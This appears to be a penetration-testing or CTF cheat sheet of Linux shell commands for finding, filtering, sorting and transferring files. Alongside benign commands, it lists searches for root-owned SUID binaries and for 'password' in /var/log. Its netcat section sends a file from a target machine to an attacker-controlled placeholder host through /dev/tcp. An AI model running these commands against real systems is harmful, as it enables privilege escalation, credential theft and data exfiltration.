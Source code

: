 # Files
## File Type
### Print the file type of all files in a folder:
```bash
file */{.,}*
```		
## Filtering Files
### Name
```bash
find / -name "<name>" 2>/dev/null
```
### Ex. Flags
```bash
find / -name "*flag*" 2>/dev/null
```
### Owned by Root w/ the SUID Bit Set
```bash
find / -perm -4000 -user root -type f 2>/dev/null
```
```bash
find / -perm -u=s -type f 2>/dev/null
```
### Finding the string password in log files
```bash
grep -R -e 'password' /var/log/ 2>/dev/null
```
### ASCII Text
```bash
file */{.,}* | grep ASCII
```
### Size
```bash
du -b -a | grep 1033
```
### Non-Executable
```bash
find . ! -executable
```
### ASCII Text, Size, and Non-Executable
```bash
find . -type f -size 1033c ! -executable -exec file '{}' \; | grep ASCII
```
- -size 1033 to look for the file-size requirement.
- -type f to only look at files.
- -exec file '{}' \;, to execute the file command and get the file data type. After that, we simply need to filter the output for the file type ‘ASCII’ again.  

## Searching in a File
### Unique Lines: 
```bash
sort <file> |  uniq -u
```
- To filter by unique lines the lines need to be sorted
### Duplicate Lines
```bash
uniq -d
```
### Count Lines:
```bash
uniq -c
```
## Sorting a File
```bash
sort <file>
```
### In Reverse 
```bash
sort -r <file>
```
### Numerically
```bash
sort -n <file>
```
Sort: sort <file>
Sort (in reverse): sort -r <file>
Sort (numerically): sort -n <file>
## Serving a File
### Python Method
Creating the File Server:
```bash
sudo python -m http.server 80
```
Downloading the File:
```bash
wget http://IP_ADDRESS:80/FILE
```
```bash
curl http://IP_ADDRESS:80/filename -o filename
```
### Netcat Method
Attacking Machine:
```bash
nc -lvnp PORT > FILE
```
Target Machine:
```bash
cat FILE > /dev/tcp/IP_ADDRESS/PORT
```
